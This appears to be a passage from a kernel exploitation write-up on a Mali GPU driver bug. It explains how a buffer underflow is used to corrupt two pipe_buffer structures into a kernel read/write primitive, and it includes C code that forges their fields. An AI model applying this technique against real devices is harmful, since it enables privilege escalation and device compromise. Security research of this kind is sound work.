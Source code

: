 ### Choosing the Optimal Offset Value for Underflow
While the allocation sizes of the `buff` ,`kbase_kcpu_command_queue` and `pipe_buffer` are ~0x4000~ bytes, I chose to underflow the buffer with **0x8000** bytes. why ? 

Let's take a brief look at how `pipe_buffers` are updated during read and write operations. Assume we can shape the `pipe_buffer` to look like this:

```c
struct pipe_buffer {
	.page = virt_to_page(addr),
	.offset =  0,
	.len = 0x40,
	.ops = kcpu_addr + 0x50,
	.flags = PIPE_BUF_FLAG_CAN_MERGE,
	unsigned long private = 0
};
```

While the bug gives the ability to arbitrary control this content of this object, it only does so **once** because the underflowed object is freed immediately after the `ioctl` call finishes. This actually poses a problem because I need to manually update the `pipe_buffer` object to make it useable again since each pipe read/write operation:
- The `.page` field is not updated; it remains the same, and when the buffer is empty, it is released, which I do not want to happen because the `.ops` field is not correctly set. 
- Because the `pipe_buffer` updates the `.offset` field on a read operation, therefore, I cannot read the same memory region again. 
- The data written to the `pipe_buffer` will be appended to the buffer starting from the `.len` value (assuming that `PIPE_BUF_FLAG_CAN_MERGE` flag is set) and the `.len` is updated accordingly. That is, we can't write data into the exact address twice. 

As a result, unless I properly update the `pipe_buffer` after each read or write operation, I cannot read and write from/to the same pipe at the same time. That's why underflowing with `0x8000` bytes is much more practical, because instead of overwriting a single `pipe_buffer`, **I'll overwrite two distinct pipe_buffer instances of two distinct pipes objects: one for will be considered for read and the other for write operations**.

```c
#define PIPE_BUF_FLAG_CAN_MERGE	0x10	/* can merge buffers */

pipe_read = (struct pipe_buffer *)( ptr);
pipe_read->page = virt_to_page(ta->kcpu_kaddr);
pipe_read->offset = 0;
pipe_read->len = 0xfff;
pipe_read->ops = (const void *)(ta->kcpu_kaddr + 0x50);
pipe_read->flags = PIPE_BUF_FLAG_CAN_MERGE;
pipe_read->private = 0;

pipe_write = (struct pipe_buffer *)( ptr + 0x4000);
pipe_write->page = virt_to_page(ta->kcpu_kaddr);
pipe_write->offset = 0;
pipe_write->len = 0;             /* This is the starting position of the pipe_write */
pipe_write->ops = (const void *)(ta->kcpu_kaddr + 0x50);
pipe_write->flags = PIPE_BUF_FLAG_CAN_MERGE;
pipe_write->private = 0;
```

